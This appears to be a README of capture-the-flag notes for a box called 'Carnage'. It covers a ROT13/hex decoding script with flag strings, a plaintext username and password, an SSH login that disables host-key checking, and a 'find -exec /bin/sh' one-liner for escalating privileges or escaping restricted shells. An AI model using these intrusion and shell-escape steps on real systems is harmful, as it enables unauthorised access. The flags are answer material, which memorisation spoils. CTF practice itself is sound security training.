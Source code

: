 # Carnage

## How to Use the hashexec.sh

1. **Make it Executable**:
   Run the following command to make the script executable:
   ```bash
   chmod +x hashexec.sh
   ```

2. **Run the Script**:
   You can run the script by passing the string and hash type. Here are examples:

   - For ROT13:
     ```bash
     ./hashexec.sh "guz{06834nnp0714586s2o2s925ps49opq31}" rot13
     ```

   - For Hexadecimal:
     ```bash
     ./hashexec.sh "74686d7b38393334623432653339656133613135323962333633393039353466306632617d" hex
     ```

3. **Expected Output**
   - For ROT13 input:
      ```
      ROT13 converted: flag
      ```


## cred

```bash
Password='-`G)8(t/NDkZ"u^{'
user=bobba
```
## connect

```bash
export ip=<ip>
ssh -o StrictHostKeyChecking=no bobba@"$ip" 
```
## root

It can be used to break out from restricted environments by spawning an interactive system shell.
```bash
find . -exec /bin/sh \; -quit
```
